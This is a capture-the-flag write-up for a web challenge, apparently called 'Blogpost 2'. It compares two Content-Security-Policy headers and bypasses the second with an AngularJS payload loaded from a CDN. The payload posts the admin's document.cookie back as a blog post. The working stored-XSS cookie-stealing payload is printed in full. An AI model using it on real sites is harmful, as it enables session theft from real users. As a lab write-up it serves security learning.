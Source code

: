 ```yaml
---
layout: default
title: Blogpost 2
permalink: /:path/
parent: Web
nav_order: 2
---
```

# Blogpost 2

> Points: 725 [?]

## Description

> Look out for my blog posts, again!!
> File: `web_blogpost2.zip`

## Solution

### Understanding the application's features

As a follow-up to the `Blogpost` challenge, the application's features do not differ that much. However, there was a small difference in the source code.

### Analysing the source code

By using the `diff` command , we see that only the `src/app/index.js` differed between both applications.

```bash
$ diff web_blogpost/src/app/index.js web_blogpost2/src/app/index.js  
14c14
<         "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
---
>         "default-src 'self'; script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
```

This affects our payload as this meant that the browser will no longer execute our inline javascript.

![](2022-12-06-17-28-53.png)

However, if we use Google's CSP Evaluator, we learn that the new CSP is still bypassable.

![](2022-12-06-17-30-46.png)

### Stealing the flag from the admin user

With a bit of [googling](https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques) and modifying our payload to achieve the same purpose,

![](2022-12-06-18-07-13.png)

We create a new blog post with an arbitrary title and the following content:

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>
{{$eval.constructor('fetch("/post",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({title:"get flag here",content:document.cookie})});')()}}
</div>
```

After clicking on `Create` and browsing to the blog page, we see a new post by the `admin` user, with the flag printed nicely.

![](2022-12-06-18-04-19.png)

## Flag
`STF22{f4k3_fl4g_f0r_t3st1ng}`

